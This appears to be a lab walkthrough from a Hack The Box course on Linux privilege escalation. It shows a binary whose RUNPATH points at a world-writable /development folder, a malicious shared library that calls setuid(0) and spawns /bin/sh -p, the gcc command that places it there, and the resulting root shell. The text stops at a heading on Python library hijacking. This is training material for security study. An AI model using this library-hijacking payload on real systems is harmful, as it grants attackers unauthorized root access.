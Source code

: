 ```
htb-student@NIX02:~$ readelf -d payroll  | grep PATH
 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

From here we can see `RUNPATH` configuration. Libraries in this folder are given preference over other folders.

From above command we can see, loading of libraries from `/development` folder.

```
htb-student@NIX02:~$ ls -la /development/
total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

we can see, we have rwx permission on /development folder. we can exploit this misconfiguration by placing a malicious library in this /development folder 

which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).

lets create a malicious shared object

```bash
#include<stdio.h>
#include<stdlib.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 

```

- `gcc src.c -fPIC -shared -o /development/libshared.so`
    
    compile and save it to /development folder.
    

Now running the binary gives us root shell

```bash
htb-student@NIX02:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```

# **Python Library Hijacking**

there are three basic vulnerabilities where hijacking can be used:
